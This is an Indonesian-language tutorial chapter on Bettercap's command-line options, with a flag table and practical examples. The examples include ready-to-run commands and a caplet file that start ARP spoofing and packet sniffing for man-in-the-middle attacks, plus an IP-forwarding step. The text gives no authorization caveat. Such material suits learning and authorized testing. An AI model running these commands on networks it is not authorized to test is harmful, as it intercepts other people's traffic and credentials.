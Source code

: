 # Bab 5 - Struktur Lengkap Perintah CLI Bettercap

## A. Menu Help Bettercap

Tampilkan menu bantuan (`help`) dari [Bettercap](https://www.bettercap.org/) menggunakan perinah:

```
sudo betercap --help
```

Berikut ini adalah **daftar** dan **penjelasan parameter** yang tersedia saat menampilkan menu bantuan (`help`) dari `Bettercap`:

| Opsi CLI | Fungsi |
|:--:|:--:|
| `-iface <nama_interface>`	| Menentukan **interface jaringan** yang digunakan (contoh: **eth0**, **wlan0**, **dll**) |
| `-caplet <file.cap>` | Menjalankan **caplet script** (file berisi perintah `bettercap`) saat startup |
| `-eval "perintah;perintah"` | Menjalankan perintah langsung di **CLI** tanpa harus masuk **shell interaktif** |
| `-autostart <modul1,modul2>` | Menjalankan modul tertentu secara otomatis saat startup |
| `-env-file <file>` | Load file **environment** tertentu saat sesi dimulai |
| `-script <file>` | Menjalankan script sesi (biasanya `.lua` atau `.cap` custom) |
| `-caplets-path <folder>` | Menentukan lokasi **direktori** untuk semua **caplet** |
| `-gateway-override <IP>` | Override default **gateway** dengan **IP lain** jika perlu |
| `-cpu-profile <file>` | Simpan profiling penggunaan **CPU** ke **file** (debug/performance testing) |
| `-mem-profile <file>` | Simpan profiling penggunaan **memori** ke **file** |
| `-no-colors` | Menonaktifkan **warna output** (berguna jika dikirim ke **file/log**) |
| `-no-history` | Nonaktifkan penyimpanan **history** sesi interaktif |
| `-pcap-buf-size <int>` | Atur ukuran buffer **PCAP** ([sniffing](https://cyberhub.id/pengetahuan-dasar/apa-itu-sniffing)), biarkan **0** untuk default |
| `-debug` | Tampilkan semua **log debug** (sangat **verbose**, untuk **developer** / **troubleshooting**) |
| `-silent` | Nonaktifkan semua **log** kecuali **error** |
| `-version` | Tampilkan versi `Bettercap` dan **keluar** |

## B. Contoh Penggunaan Umum:

```
sudo bettercap -iface <nama_interface>
```

Setelah itu akan masuk ke `shell interaktif`:

```
bettercap v2.33.0 (built for linux amd64 with go1.22.6) [type 'help' for a list of commands]

192.168.1.0/24 > 192.168.1.11  » [17:08:48] [sys.log] [inf] gateway monitor started ...
192.168.1.0/24 > 192.168.1.11  »  
```

## C. Contoh Praktis

### 1. Caplet File:

```
sudo bettercap -iface <nama_interface> -caplet <nama_file_caplet>
```

### 2. Eval Langsung:

```
sudo bettercap -iface <nama_interface> -eval "set arp.spoof.targets 192.168.1.5; arp.spoof on; net.sniff on"
```

### 3. Override Gateway dan Autostart Modul:

```
sudo bettercap -iface <nama_interface> -gateway-override 192.168.1.1 -autostart "arp.spoof,net.sniff"
```

## D. Caplet Contoh (file: sniff.cap)

```
set arp.spoof.targets <ip_address_target>
set net.sniff.verbose true
arp.spoof on
net.sniff on
```

## E. Catatan Penting:
- Gunakan `-iface` dengan benar sesuai interface aktif (`ifconfig` atau `ip a` untuk **cek**).
- **Caplet** digunakan untuk menyusun **script otomatisasi serangan**.
- Lebih praktis menggunakan `-eval` untuk uji cepat langsung dari **CLI**.
- Jangan lupa aktifkan **IP forwarding** jika kamu jalankan **MITM**:

  ```
  echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
  ```

